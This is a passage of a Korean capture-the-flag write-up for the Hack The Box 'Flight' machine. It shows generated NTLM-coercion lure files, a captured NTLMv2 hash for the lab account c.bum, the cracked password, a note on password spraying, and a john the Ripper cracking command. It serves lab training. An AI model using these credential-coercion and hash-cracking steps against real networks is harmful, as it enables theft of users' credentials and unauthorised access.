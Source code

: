 ```zsh
Created: test/test-(externalcell).xlsx (OPEN)
Created: test/test.wax (OPEN)
Created: test/test.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: test/test.asx (OPEN)
Created: test/test.jnlp (OPEN)
Created: test/test.application (DOWNLOAD AND OPEN)
Created: test/test.pdf (OPEN AND ALLOW)
Created: test/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: test/Autorun.inf (BROWSE TO FOLDER)
Created: test/desktop.ini (BROWSE TO FOLDER)
Generation Complete.
```

- 공격자 호스트에서 실행중인 리스폰더 서버에 `c.bum` 계정의 NTLMv2 Hash 값이 반환된 것을 확인 가능하다.
<img src='assets/post/2025/Playground/Hack The Box/Flight/3.png' width=1200 alt=''>


### Cracking NTLMv2 Hash (c.bum)

- `c.bum` 계정의 패스워드 추출에 성공했다. (Tikkycoll_431012284)  
- 추가로, 이 패스워드로 패스워드 스프레잉 공격을 진행하였으나 유효한 계정은 존재하지 않았다.  

```zsh
└─# echo 'c.bum::flight.htb:36cd727fca74d031:9F023A6AC746C47AE0D01C5F853B1C71:010100000000000000E7E96C0F1BDC010D88132F00630D8A000000000200
08004C0048005300530001001E00570049004E002D004300530056004F00510059004A00360034004A00530004003400570049004E002D004300530056004F00510059004A
00360034004A0053002E004C004800530053002E004C004F00430041004C00030014004C004800530053002E004C004F00430041004C00050014004C004800530053002E00
4C004F00430041004C000700080000E7E96C0F1BDC010600040002000000080030003000000000000000000000000030000071D19A580A57C3262D643ADF0E1D0FCA1A67F1
8C85052849DA65F0025765CE080A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E0038000000
000000000000' > cbum_hash

[ . . . ]

└─# john cbum_hash --wordlist=./rockyou.txt             
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
```